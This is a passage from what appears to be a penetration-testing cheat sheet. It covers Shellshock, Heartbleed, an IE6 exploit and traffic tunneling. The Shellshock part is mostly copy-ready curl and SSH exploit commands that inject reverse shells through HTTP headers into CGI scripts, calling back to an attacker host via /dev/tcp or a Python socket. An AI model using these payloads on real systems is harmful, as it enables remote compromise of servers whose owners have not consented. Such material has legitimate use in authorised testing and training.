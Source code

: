 ```
curl -x TARGETADDRESS -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/HOSTIP/1234 0>&1" $ip/cgi-bin/status
```

```
curl -H "UserAgent: () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.123\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" http://$ip/cgi-bin/test.sh
```

Shellshock over SSH:

```
ssh username@$ip '() { :;}; /bin/bash'
```

Exploit shellshock via curl, use -k switch to force curl to bypass any SSL warnings. Replace the bash command with anything.

```
curl http://192.168.123.123/path/to/cgi- bin/name_of_vuln_cgi -H "custom:() { ignored; }; /bin/bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1 "
```

#### &#x20;<a href="#heartbleed" id="heartbleed"></a>

#### HeartBleed <a href="#heartbleed" id="heartbleed"></a>

Test web server

```
sslscan $ip:443
```

#### &#x20;<a href="#internet-explorer-6" id="internet-explorer-6"></a>

#### Internet explorer 6 <a href="#internet-explorer-6" id="internet-explorer-6"></a>

Vulnerable to msf exploit(ms10\_002\_aurora)

### &#x20;<a href="#tunneling-your-traffic-through-another-host" id="tunneling-your-traffic-through-another-host"></a>

### Tunneling your traffic through another host <a href="#tunneling-your-traffic-through-another-host" id="tunneling-your-traffic-through-another-host"></a>

*
* ```
  sshuttle -r root@$ip 10.10.10.0/24
  ```

#### &#x20;<a href="#port-forwarding" id="port-forwarding"></a>

#### Port forwarding <a href="#port-forwarding" id="port-forwarding"></a>

Simplest type of traffic redirection, consists on accepting traffic from one address and port port and redirecting it to another address and port.

It can be useful to bypass address and port based filters. Rinetd is a linux tool to do it.

#### &#x20;<a href="#local-port-forwarding" id="local-port-forwarding"></a>

#### Local port forwarding <a href="#local-port-forwarding" id="local-port-forwarding"></a>

  ```